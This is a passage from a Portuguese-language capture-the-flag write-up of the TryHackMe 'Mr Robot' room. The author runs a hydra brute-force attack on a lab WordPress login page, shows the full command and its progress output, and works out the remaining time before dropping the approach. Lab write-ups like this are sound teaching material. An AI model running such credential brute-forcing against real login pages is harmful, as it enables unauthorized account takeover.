 ![](senha-invalida.webp)

Com base na resposta do WordPress, realizei um novo brute force direcionado, agora focando na identificação da senha. 

```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ hydra -l ****** -P fsocity.dic 10.10.150.40 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-10 15:19:35
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:1/p:858235), ~28608 tries per task
[DATA] attacking http-post-form://10.10.150.40:80/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username
[STATUS] 1592.00 tries/min, 1592 tries in 00:01h, 856643 to do in 08:59h, 30 active
[STATUS] 1580.00 tries/min, 4740 tries in 00:03h, 853495 to do in 09:01h, 30 active
[STATUS] 1287.00 tries/min, 9009 tries in 00:07h, 849226 to do in 10:60h, 30 active
[STATUS] 889.87 tries/min, 13348 tries in 00:15h, 844887 to do in 15:50h, 30 active
[STATUS] 708.29 tries/min, 21957 tries in 00:31h, 836278 to do in 19:41h, 30 active
[STATUS] 652.45 tries/min, 30665 tries in 00:47h, 827570 to do in 21:09h, 30 active
[STATUS] 624.02 tries/min, 39313 tries in 01:03h, 818922 to do in 21:53h, 30 active
[STATUS] 607.57 tries/min, 47998 tries in 01:19h, 810237 to do in 22:14h, 30 active
[STATUS] 596.91 tries/min, 56706 tries in 01:35h, 801529 to do in 22:23h, 30 active
[STATUS] 589.20 tries/min, 65401 tries in 01:51h, 792834 to do in 22:26h, 30 active
[STATUS] 583.69 tries/min, 74129 tries in 02:07h, 784106 to do in 22:24h, 30 active
[STATUS] 579.27 tries/min, 82836 tries in 02:23h, 775399 to do in 22:19h, 30 active
[STATUS] 576.30 tries/min, 91631 tries in 02:39h, 766604 to do in 22:11h, 30 active
[STATUS] 574.01 tries/min, 100452 tries in 02:55h, 757783 to do in 22:01h, 30 active
[STATUS] 571.88 tries/min, 109229 tries in 03:11h, 749006 to do in 21:50h, 30 active
[STATUS] 570.07 tries/min, 118005 tries in 03:27h, 740230 to do in 21:39h, 30 active
[STATUS] 568.55 tries/min, 126786 tries in 03:43h, 731449 to do in 21:27h, 30 active
[STATUS] 567.26 tries/min, 135574 tries in 03:59h, 722661 to do in 21:14h, 30 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Após várias horas de execução sem sucesso, comecei a questionar se a senha realmente estaria contida naquele dicionário fornecido. Para ter uma estimativa mais precisa do tempo necessário, realizei um calculo:

> Usando a taxa mais recente `(567 tries/min)` temos:
>
$$
\text{Tempo Restante} = \frac{722661 \text{ senhas restantes}}{567.26 \text{ tries/min}} \approx 1273,95 \text{ minutos}\ \approx 21 \text{horas e }23 \text{minutos}
$$
{: .prompt-info }

Essa estimativa me levou a reconsiderar o método, pois aguardar mais de 24 horas por uma resposta de um `desafio CFT` não é muito viável. Decidi, então, reavaliar as evidências já encontradas, especialmente a string codificada localizada anteriormente na rota em `/license`.
